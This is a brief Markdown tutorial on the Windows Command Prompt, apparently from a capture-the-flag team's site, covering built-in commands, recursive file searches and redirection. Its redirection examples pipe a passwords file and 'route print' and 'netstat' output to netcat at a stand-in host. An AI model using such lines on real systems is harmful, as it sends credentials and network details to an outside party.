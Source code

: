 ```yaml
---
title: Windows Command Prompt
category: windows
layout: post
---
```


The Windows Command Prompt, or cmd, is not known for being a great terminal.
However, it's installed on every system of Windows imaginable, so it's good to know.
If the option is available, however, you should probably take PowerShell over cmd.
Provided here is a quick guide.
Remember: if you don't know a command, try `command /?`!

## Basic Commands
Type in `help` to see a list of the common built-in commands.

Other built-in tools:
```
dir      - list a directory
find     - search input for text
type     - show the contents of a file
findstr  - search a set of files for text
ipconfig - display IP configuration
nslookup - look up DNS name
route    - edit/display the routing table - e.g. route print
attrib   - list file attributes
cacls    - edit file ACLs, use icacls on newer systems
```

## Common Examples
List all files under `directory`:
```
dir /a /s /b <directory>
```

Find all files containing the term `flag`, case-insensitively:
```
dir /a /s /b <directory> | find /i "flag"
```

## Redirection
It's important to understand that each program has 2 outputs and 1 input.
The input is called "standard in" (stdin), and the two outputs are called "standard out" (stdout) and "standard error" (stderr).
Stdout is the typical output of the program.
Stderr is non-typical output of the program that the user should probably see.
Stdin is what goes into the program.

By default, all of these are from the console itself.
Stdout will end up on the console, stdin will be what's typed in, etc.
This can be changed with redirection.

`< filename` will set the stdin of the program to a file:
```
C:\> nc example.com 1337 < passwords.txt
```

`> filename` will set the stdout of the program to a file:
```
C:\> ipconfig > network_config.txt
```

Piping with the `|` character chains commands so the stdout of the left side becomes the stdin of the right side:
```
C:\> route print | nc example.com 1337
```

`2>&1` sets the stderr of the program to be the same destination as stdout.
This primarily has the use of piping both stdout and stderr.
```
C:\> netstat -ano 2>&1 | nc example.com 1337
```
